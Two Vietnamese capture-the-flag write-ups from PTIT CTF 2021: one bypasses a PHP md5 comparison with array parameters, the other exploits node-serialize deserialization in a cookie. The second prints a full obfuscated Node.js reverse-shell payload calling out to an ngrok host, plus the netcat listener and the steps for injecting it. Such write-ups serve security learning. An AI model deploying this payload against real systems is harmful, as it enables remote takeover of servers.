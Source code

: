 [PTIT-CTF-2021] WEB - Recon

Description: Can you recon where flag is hidding in this website ???? URL: http://34.84.29.1:2412/

Bạn có thể trinh sát flag ẩn trong trang web này không? 

Dạo vòng quanh web thì thấy có endpoint  `/demo` có thể truy cập, view source tại phần comment các bạn có thể thấy vài bình luận nhưng có bình luận khá đặc biệt

```
<!-- /demo/somesecretimages/image-00.png,  00 or 01 ???-->
```

Các hình ảnh đều theo format qrcode. Thử truy cập vào ảnh, ở image-00.png và image-01.png  parsed các đoạn text phần nào gợi ý rằng flag sẽ nằm ở đâu đấy sau khi decode bức ảnh nào đấy   :vv

![1.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/1.png)

![2.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/2.png)

Số 14 trong phần ` /demo`, truy cập vào cũng ra 1 ảnh dạng qrcode. Ok lại decode thôi, ở đây text sẽ là  `the real challenge: /ch4ll3ng3/` và đây là endpoit để ra được flag.

Dưới đây là code sau khi truy cập vào `/ch4ll3ng3/`:

``` php
<?php 
include('flag.php');
highlight_file(__FILE__); 
error_reporting(0); 
$apple = $_GET['apple']; 
$banana = $_GET['banana']; 
if(isset($_GET['apple']) && isset($_GET['banana'])){ 
    if($apple !== $banana){ 
        if(hash('md5', $salt . $apple) == hash('md5', $salt . $banana)){ 
            echo $flag; 
        } 
    }
} 
?>
```

Đoạn trên có ý nghĩa so sách giá trị của hai  args, nếu khác nhau thì sẽ hiển thị $flag

Bên dưới thì đây là payload của mình, truy cập và nhận cờ.

`http://34.84.29.1:2412/ch4ll3ng3/?apple[12]=123&banana[2]=122`

Flag:  PTIT{fake_flag}



======================================================================



[PTIT-CTF-2021] WEB - Rick Roll

Hôm nay khá bận nên mình cố gắng viết ngắn gọn nhất có thể, phần nào chưa rõ các bạn tìm hiểu thêm nhé. 

tl;dr

Thử thách tồn tại lỗ hổng deserialize trong nodejs, cho phép dữ liệu không đáng tin cậy được chuyển vào hàm unserialize() dẫn đến RCE bằng cách chuyển đổi serialized Javascript Object

với IEFE

**Bug**

Lỗ hổng trong thử thách là giá trị cookie trong yêu cầu HTTP.  Bây giờ có thể khai thác hàm unserialize() trong module node-serialize nếu dữ liệu không đáng tin cậy được truyền vào. Khai thác lỗ hổng để tạo một Reverse Shell.

![3.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/3.png)

--> base64 decode:

![4.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/4.png)



**Exploit**

Tạo một đường hầm ngrok TCP để nat ip với port ra ngoài

```
#./ngrok tcp 8083
```

output:

![5.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/5.png)

Ở đây mình dùng [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) để tạo reverse shell.

Set argument là host và port của ngrok như thế này để gen payload.

```
$python3 nodejsshell.py 4.tcp.ngrok.io:12497 8083
[+] LHOST = 4.tcp.ngrok.io:12497
[+] LPORT = 8083
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,52,46,116,99,112,46,110,103,114,111,107,46,105,111,58,49,50,52,57,55,34,59,10,80,79,82,84,61,34,56,48,56,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))

```

Bây giờ gen một payload serialized với javascript sau:

```javascript
var y = {
rce : function() {}
}
var serialize = require(‘node-serialize’);
console.log(“Serialized: \n” + serialize.serialize(y)); 
```

![6.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/6.png)

Chèn payload trong dấu ngoặc nhọn **{** *eval (String.from ………* **}** như hình dưới đây: 

![7.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/7.png)

Lưu tệp dưới dạng **mining.js** và chạy bằng lệnh node tạo ra payload serialized  được hiển thị bên dưới: 

![8.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/8.png)

Bây giờ quay lại BurpSuite và điều hướng đến tab decoder và paste mã  đầu ra ở trên vào text để và encode base64, các bạn hãy thêm [dấu ngoặc IIFE ](http://benalman.com/news/2010/11/immediately-invoked-function-expression/)() sau nội dung hàm như hình dưới đây: 

![9.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/9.png)

Trong tab Repeater, bạn cần thay thế giá trị cookie bằng giá trị được mã hóa base64 mà chúng ta đã tạo từ bước trên và sau đó nhấp  *Send*.

![10.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/10.png)

Bên cạnh đó, các bạn có thể set lại dịch vụ netcat của bạn đang listen có trên cùng một port không, tức là 8083 (cùng một cổng cho payload reverse shell )

```
Lệnh: nc -nlvp 8083
```

Ngay sau khi nhấp vào Send, request sẽ được gửi đến máy chủ hiển thị 200 OK và kết nối thành công trên  port 8083 lúc này tiến hành reverse shell để lấy flag

![11.png](https://github.com/hatunaa/ctf-writeups/blob/master/2021/PTIT_CTF_2021/images/11.png)

Flag ở trong file Dockerfile, cat ra sẽ thấy liền :vv



========================================
